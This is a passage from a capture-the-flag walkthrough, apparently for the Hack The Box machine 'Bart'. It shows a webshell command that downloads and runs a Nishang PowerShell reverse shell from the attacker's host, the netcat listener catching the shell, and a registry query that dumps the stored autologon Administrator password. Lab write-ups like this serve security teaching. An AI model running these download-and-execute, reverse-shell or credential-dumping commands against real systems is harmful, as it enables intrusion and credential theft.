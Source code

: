 Time for a real shell. Grab `Invoke-PowerShellTcp.ps1` from
[Nishang](https://github.com/samratashok/nishang), and add a line to the end:

    
    
    root@kali# cp /opt/powershell/nishang/Shells/Invoke-PowerShellTcp.ps1 .
    root@kali# tail -1 Invoke-PowerShellTcp.ps1
    Invoke-PowerShellTcp -Reverse -IPAddress 10.10.15.48 -Port 4444
    

Give webshell powershell to get interactive shell and run it, and get shell:

    
    
    >>> cmd = "powershell IEX(New-Object Net.WebClient).downloadString('http://10.10.15.48:8083/Invoke-PowerShellTcp.ps1')"
    >>> r = requests.get('http://internal-01.bart.htb/log/0xdf.php?cmd={}'.format(cmd), proxies=proxies)
    
    
    
    root@kali# python -m SimpleHTTPServer 8083
    Serving HTTP on 0.0.0.0 port 8083 ...
    10.10.10.81 - - [28/Apr/2018 16:09:12] "GET /Invoke-PowerShellTcp.ps1 HTTP/1.1" 200 -
    
    
    
    root@kali# nc -lnvp 4444
    listening on [any] 4444 ...
    connect to [10.10.15.48] from (UNKNOWN) [10.10.10.81] 49673
    Windows PowerShell running as user BART$ on BART
    Copyright (C) 2015 Microsoft Corporation. All rights reserved.
    
    PS C:\inetpub\wwwroot\internal-01\log>whoami
    nt authority\iusr
    

## Privesc: iusr -> Administrator

### Creds in Winlogon

Walking through some [standard Windows privesc
checks](https://www.sploitspren.com/2018-01-26-Windows-Privilege-Escalation-
Guide/), I eventually found default credentials stored in the registry for
autologon. When I queried that out of the nishang shell, I didn’t find the
password. See section at end about trouble shooting this.

To get it to work, uploaded nc64.exe, and got a fresh 64bit shell, and I was
able to dump credentials from the registry:

    
    
    C:\inetpub\wwwroot\internal-01\log>reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" 2>nul | findstr "DefaultUserName DefaultDomainName DefaultPassword"
    reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" 2>nul | findstr "DefaultUserName DefaultDomainName DefaultPassword"
        DefaultDomainName    REG_SZ    DESKTOP-7I3S68E
        DefaultUserName    REG_SZ    Administrator
        DefaultPassword    REG_SZ    3130438f31186fbaf962f407711faddb
    